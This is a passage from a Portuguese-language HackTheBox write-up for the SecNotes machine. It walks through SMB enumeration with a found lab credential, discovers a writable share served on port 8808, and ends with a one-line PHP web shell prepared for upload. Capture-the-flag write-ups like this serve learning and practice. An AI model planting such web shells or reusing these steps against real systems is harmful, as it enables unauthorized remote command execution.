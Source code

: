 Uma máquina que explica bem melhor esse tipo de sqlinjection é a Nightmare - HTB, não fiz ela ainda pq é nível Insane

Bom, com o login do servidor smb agora vamos enumerar ele e explorar

## Enumeração da porta 445

Vamos começar a enumerar ele então

Realmente, não aceita login anonimo nem nada

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-secnotes/S_smb.png)

Agora com o usuário encontrado o resultado é outro! Verificamos que temos acesso de `READ,WRITE` nessa pasta `new-site`

`smbmap -H 10.10.10.97 -u tyler -p '92g!mA8BGjOirkL%OG*&'`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-secnotes/S_smb1.png)

`smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-secnotes/S_smb2.png)

Show, conseguimos ver dois arquivos ai, pelo que parece é realmente um website novo, mas certamente não é um na porta 80 que verificamos, então vamos rodar outro nmap em todas as portas pra ver se temos mais algum resultado (esse nmap demora um pouco)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-secnotes/S_nmap1.png)

Opa! Encontramos essa porta 8808 aberta, vamos verificar ela no browser

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-secnotes/S_iss.png)

Bom, é outra página, mas será que é a mesma? Vamos tentar inserir algum arquivo no servidor samba, uma vez que temos permissão de escrita nele e ver se conseguimos ler o arquivo pela página web

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-secnotes/S_iss1.png)

Conseguimos!

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-secnotes/S_iss2.png)

# Explorando WebShell Windows

Bom, sabendo que podemos inserir arquivos dentro e executar direto do browser, teoricamente podemos inserir um webshell e executar ele ali, ganhando um cmd do usuário

Então fazemos um webshell simples e jogamos dentro do servidor samba

shell.php
```
<?php echo system($_REQUEST['cmd']); ?>
```
